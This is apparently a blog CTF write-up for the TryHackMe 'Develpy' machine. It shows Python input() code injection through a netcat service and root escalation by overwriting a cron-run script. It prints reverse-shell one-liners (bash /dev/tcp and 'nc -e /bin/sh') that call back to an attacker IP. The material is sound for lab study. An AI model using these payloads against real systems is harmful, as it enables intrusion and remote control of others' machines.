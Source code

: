 ```yaml
---
layout: post
title:  "THM - Develpy"
date:   2020-10-07 20:00:00 +1100
category: hacking
---
```


## Introduction
*boot2root machine for FIT and bsides Guatemala CTF.*

Not much to go on here. This one is Medium rated. Let's begin.

## Ports
Nmap says we've got two ports only - SSH on 22 and a mystery port on 10000.

Visiting port 10000 in Firefox presents the following message:

>Private 0days  
Please enter number of exploits to send??: Traceback (most recent call last):
  File "./exploit.py", line 6, in <module>  
    num_exploits = int(input(' Please enther number of exploits to send??:   '))  
  File "<string>", line 1, in <module>  
NameError: name 'GET' is not defined  

So it looks like a python application of some sort that we don't interact with via a brower. We'll move on to netcat.

## Netcat

{% highlight shell %}
root@kali:/opt/tryhackme/develpy# nc 10.10.97.246 10000

        Private 0days

 Please enther number of exploits to send??: 1

Exploit started, attacking target (tryhackme.com)...
Exploiting tryhackme internal network: beacons_seq=1 ttl=1337 time=0.011 ms
{% endhighlight %}

So what's going on here is we enter some number, and we get that number of pings. Now we have to break it.

## Breaking it
I tried a few different things; some things produce this message as part of the error:

>num_exploits = int(input(' Please enther number of exploits to send??: '))

So we can see the value being input being cast to an integer with int - actually we saw this earlier when we visited the port in the browser. Trying a few different data types produces more error messages, indicating it wants a *string* or *integer* as the expected input. After a bit I tried this:

``
__import__('os').system('bash -i >& /dev/tcp/10.9.10.123/1234 0>&1')#
``

Which prompted this error:
>sh: 1: Syntax error: Bad fd number

And this indicated that the command was being executed by the system but not being understood (using **sh** not **bash**). The next one I tried was:

``
__import__('os').system('nc -e /bin/sh 10.9.10.123 1234')
``

And I was on the box.

## On the box
Our user is called *king*. Checking /etc/crontab we can see:

>*  *	* * *	root	cd /home/king/ && bash root.sh

So we have root running a script in our home directory. Nice. We can overwrite the script with our own - I deleted the original and replaced it:

``
king@ubuntu:~$ echo '#!/bin/bash' >> root.sh
``

``
king@ubuntu:~$ echo 'nc -e /bin/sh 10.9.10.123 1235' >> root.sh
``

Since we know this shell already works, we might as well user it again with a different port number, right? With a new listener we get a root shell and it's all done; thanks for playing.
